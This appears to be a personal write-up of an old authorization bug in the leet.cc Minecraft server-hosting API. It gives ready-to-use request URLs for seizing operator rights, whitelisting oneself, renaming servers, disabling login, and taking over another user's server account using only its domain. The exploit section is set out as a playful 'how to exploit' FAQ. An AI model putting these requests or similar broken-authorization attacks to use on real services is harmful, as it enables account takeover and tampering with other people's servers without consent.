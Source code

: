 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


<https://leet.cc> is an Minecraft bedrock server hosting provider.  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://news.softpedia.com/news/data-for-6-million-minecraft-gamers-stolen-from-leet-cc-servers-507445.shtml> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂but then this is `leet.cc`

# Methodology

Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>`  
The user ID which used to be optional was the user's email address or their device ID.

# The exploit

In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂

# I want OP!

- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name

# I'm not whitelisted. What should I do?

- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name

# The server name is missing a duck emoji, no problem!

- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆

# This old login using `/login <password>` is too annoying.

- Just set `setUserRegistration` to off!

# I wanted an account takeover!

Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
